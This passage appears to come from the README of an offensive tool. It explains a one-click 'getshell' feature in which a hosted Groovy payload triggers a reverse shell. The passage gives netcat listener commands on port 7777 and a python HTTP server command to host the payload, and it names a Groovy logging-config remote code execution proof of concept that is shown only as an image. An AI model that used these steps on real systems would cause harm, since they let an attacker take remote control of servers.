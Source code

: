 一键getshell监听的端口是托管groovy文件的端口，反弹端口默认为7777

输入框中填写你开启服务器的端口，目前为了更好弹shell，最好设置在该项目的resources文件夹开启

**注意！！！**：“HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出”

所以师傅有需要修改代码或者其他用途的时候，修改代码的时候不要改错groovy内容，并且文件内容也不要随意修改，以防万一

```bash
nc -lvk 7777 # mac
nc -lvp 7777 # linux
python -m http.server 80
```

![](./image/image-20240913231419290.png)

### #7 LoggingConfigGroovyRCE

POC

![](./image/image-20241101172846179.png)
